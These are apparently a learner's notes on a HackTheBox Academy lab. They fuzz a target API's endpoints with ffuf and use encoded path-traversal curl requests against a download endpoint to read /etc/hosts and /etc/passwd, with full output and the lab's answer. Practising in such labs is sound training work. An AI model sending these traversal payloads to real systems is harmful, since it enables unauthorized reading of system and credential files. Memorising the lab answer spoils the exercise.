 ```yaml
---
sticker: emoji//1f480
---
```

Local File Inclusion (LFI) is an attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being `Apache Log Poisoning`. Our [File Inclusion](https://academy.hackthebox.com/module/details/23) module covers LFI in detail.

Let us assess together an API that is vulnerable to Local File Inclusion.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api`.

Let us first interact with it.


```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3000/api
{"status":"UP"}
```

We don't see anything helpful except the indication that the API is up and running. Let us perform API endpoint fuzzing using _ffuf_ and the [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt) list, as follows.

```shell-session
smoothment@htb[/htb]$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>:3000/api/FUZZ
 :: Wordlist         : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

:: Progress: [40/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors
download                [Status: 200, Size: 71, Words: 5, Lines: 1]
:: Progress: [87/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:: 
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error:: 
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

It looks like `/api/download` is a valid API endpoint. Let us interact with it.

```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3000/api/download
{"success":false,"error":"Input the filename via /download/<filename>"}
```

We need to specify a file, but we do not have any knowledge of stored files or their naming scheme. We can try mounting a Local File Inclusion (LFI) attack, though.

```shell-session
smoothment@htb[/htb]$ curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
127.0.0.1 localhost
127.0.1.1 nix01-websvc

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

The API is indeed vulnerable to Local File Inclusion!

# Question
---

![](Pasted%20image%2020250219171803.png)

We can do:

```
curl "http://10.129.27.149:3000/api/download/..%2f..%2f..%2f..%2fetc%2fpasswd"
```

This outputs:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
ubuntu:x:1000:1000::/home/ubuntu:/bin/bas
```

Answer is:

```
Ubuntu
```